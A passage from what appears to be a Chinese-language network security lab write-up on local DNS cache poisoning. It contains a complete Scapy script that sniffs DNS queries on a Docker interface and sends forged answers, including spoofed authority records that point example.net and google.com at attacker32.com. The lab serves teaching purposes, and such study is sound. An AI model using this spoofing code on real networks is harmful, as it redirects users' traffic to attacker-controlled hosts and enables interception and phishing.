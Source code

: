 ![image-20230424194619534](assets/image-20230424194619534.png)

### 3.3.3 scapy

由于scapy效率较高，设置网络延时为100ms

local_dns_poisoning.py

```python
from scapy.all import *

def spoof_dns(pkt):
#   pkt.show()
  print(pkt[DNS].qd.qname)
  if(DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname.decode('utf-8')):
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='10.0.0.1')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='attacker32.com')
    NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='attacker32.com')

    # The Additional Section
    Addsec1 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='attacker32.cn', type='A', ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter='udp and dst port 53 and src host 172.17.0.2', prn=spoof_dns, iface="docker0")

```

效果：

攻击前：
